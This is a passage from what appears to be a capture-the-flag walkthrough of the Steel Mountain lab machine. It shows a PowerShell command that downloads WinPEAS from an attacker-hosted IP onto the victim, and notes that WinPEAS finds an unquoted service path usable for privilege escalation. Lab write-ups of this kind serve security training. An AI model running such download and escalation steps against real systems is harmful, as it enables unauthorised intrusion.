 Download winpeas script onto the vitim system to enumerate the machine for privilege escalation vectors.
```
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.11.11/winPEASany.exe', 'C:\Users\bill\winPEASany.exe')" 
```

![WinPEAS](/assets/images/vh_steel_mountain/steel-mountain-winpeas-1.jpg)

WinPEAS will also pick up that there is an Unquoted Service Path for the service: `Advanced SystemCare Service 9`

![WinPEAS results](/assets/images/vh_steel_mountain/steel-mountain-winpeas-2.jpg)
